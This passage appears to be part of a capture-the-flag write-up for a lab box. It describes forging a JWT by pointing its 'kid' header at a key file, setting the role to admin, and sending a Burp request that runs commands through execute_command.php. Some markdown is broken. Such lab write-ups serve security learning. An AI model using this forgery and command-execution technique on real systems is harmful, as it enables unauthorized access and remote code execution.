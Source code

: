 Issue seems to be that the page has a script section that logs us out after 20 seconds, so, there's few time to perform actions on the server, so, let's begin with decoding the token:

```ad-hint
#### Starting the decoding
----

For decoding this token I used this website: [URL](https://jwt.io/#debugger-io)


To finish the decoding, we need the 256 bit secret, which can be found in the `188ade1.key` file, let's get the secret:

We got the 256 bit secret, let's do the following:
1. Change the `kid` to the path we think the file is located at, in this case, `/var/www/html/188ade1.key`.
2. Change the `role` to `admin`
3. Enter the 256 bit secret
4. Get our new jwtToken and use `burp` to send a request with it, in order to perform higher privileged actions.

## Sending the burp request:

```

```r
POST /execute_command.php HTTP/1.1

Host: 10.10.176.51:1337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzMxOTcwNzA3LCJleHAiOjE3MzE5NzQzMDcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.8eF5rLcT9OeSj4CZ_1NjKIsNEF54boyTSetZlnqQmQY

X-Requested-With: XMLHttpRequest

Content-Length: 16

Origin: http://10.10.176.51:1337

Connection: keep-alive

Referer: http://10.10.176.51:1337/dashboard.php

Cookie: PHPSESSID=cgvmui0ktgr6fuu1atg9jhrka6; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzMxOTcwNzA3LCJleHAiOjE3MzE5NzQzMDcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.8eF5rLcT9OeSj4CZ_1NjKIsNEF54boyTSetZlnqQmQY; persistentSession=no

Priority: u=0



{"command":"ls"}
```